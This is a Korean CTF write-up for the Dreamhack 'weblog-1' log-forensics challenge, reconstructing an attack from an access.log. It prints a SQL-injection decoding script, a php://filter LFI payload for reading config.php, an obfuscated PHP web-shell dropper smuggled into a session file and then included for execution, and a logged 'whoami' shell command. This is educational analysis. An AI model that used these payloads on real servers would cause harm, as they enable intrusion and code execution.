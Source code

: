 ```yaml
---
title: "[wargame.kr] weblog-1 문제"
excerpt: "weblog-1 문제 풀이"
categories:
    - dreamhack
tags:
    - wargame
    - php
    - access.log
last_modified_at: 2023-09-10T09:13:00-05:00
---
```

## 문제
- [weblog-1 문제](https://dreamhack.io/wargame/challenges/71)

## LEVEL 0
- log 의 기록을 보고 admin 계정을 비밀번호를 찾아주면 된다.
- 로그 분석 결과 500 에러(서버 에러)가 발생할 때 나오는 비교 정수 값을 char 로 변환해주면 된다.

```python
f = open('./file/access.log')
keyword = 'HTTP/1.1" 500'
keyword2 = '))='

arr = []
while True:
    line = f.readline()
    if not line:
        print('end')
        break
    
    if keyword not in line:
        continue

    a = line.find(keyword2)
    if a == -1:
        continue
    line = line[a+len(keyword2):]

    l = line.find(',')

    arr.append(chr(int(line[:l])))
    # print(line[:l])
    
print(''.join(arr))

f.close()
```

## LEVEL 1
- config.php 파일을 추출해야 한다. 
- include 를 이용하여 파일을 추출하는 것을 확인할 수 있다.

```
/admin/?page=php://filter/convert.base64-encode/resource=../config.php
```

## LEVEL 2
- LFI(Local File Include) 취약점을 이용하여 서버의 php 코드를 실행하는 것을 확인할 수 있다.

- 악성 php 코드 저장

```
172.17.0.1 - - [02/Jun/2020:09:55:16 +0000] "GET /admin/?page=memo.php&memo=%3C?php%20function%20m($l,$T=0){$K=date(%27Y-m-d%27);$_=strlen($l);$__=strlen($K);for($i=0;$i%3C$_;$i%2b%2b){for($j=0;$j%3C$__;%20$j%2b%2b){if($T){$l[$i]=$K[$j]^$l[$i];}else{$l[$i]=$l[$i]^$K[$j];}}}return%20$l;}%20m(%27bmha[tqp[gkjpajpw%27)(m(%27%2brev%2bsss%2blpih%2bqthke`w%2bmiecaw*tlt%27),m(%278;tlt$lae`av,%26LPPT%2b5*5$040$Jkp$Bkqj`%26-?w}wpai,%20[CAP_%26g%26Y-?%27));%20?%3E HTTP/1.1" 200 1098 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```

- 코드를 살펴본 결과 memo.php 에서 memo 파라미터로 들어오는 값을 session 에 저장하는 것을 확인할 수 있다.
- session에 저장된 값을 불러오기 위해서 include 기능을 이용한 것을 확인할 수 있다.
- 악성 코드가 서버에서 실행된다!

```
172.17.0.1 - - [02/Jun/2020:09:55:39 +0000] "GET /admin/?page=/var/lib/php/sessions/sess_ag4l8a5tbv8bkgqe9b9ull5732 HTTP/1.1" 200 735 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```

## LEVEL 3
- 웹 쉘 코드가 저장된 위치를 알아내야 한다.
- level2 에서 실행시킨 코드이다.

```php
<?php 
function m($l,$T=0){
	$K=date('Y-m-d');
	$_=strlen($l);
	$__=strlen($K);
	for($i=0;$i<$_;$i++){
		for($j=0;$j<$__; $j++){
			if($T){
				$l[$i]=$K[$j]^$l[$i];
			}else{
				$l[$i]=$l[$i]^$K[$j];
			}
		}
	}
	return $l;
} 
m('bmha[tqp[gkjpajpw')(m('+rev+sss+lpih+qthke`w+miecaw*tlt'),m('8;tlt$lae`av,&LPPT+5*5$040$Jkp$Bkqj`&-?w}wpai, [CAP_&g&Y-?')); 
?>
```

- 난독화 되어있는 것을 확인할 수 있다.
- `date('Y-m-d')` 를 02/Jun/2020 즉 `2020-06-02` 로 바꾼 다음 php 로 실행시켜 주면 어떻게 웹 쉘 코드를 업로드 하였는지 출력되는 것을 확인할 수 있다.


## LEVEL 4
- 처음으로 실행된 명령어는 로그를 보면 바로 알 수 있다.

```
172.17.0.1 - - [02/Jun/2020:09:56:32 +0000] "GET /uploads/images.php?c=whoami HTTP/1.1" 404 490 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"
```
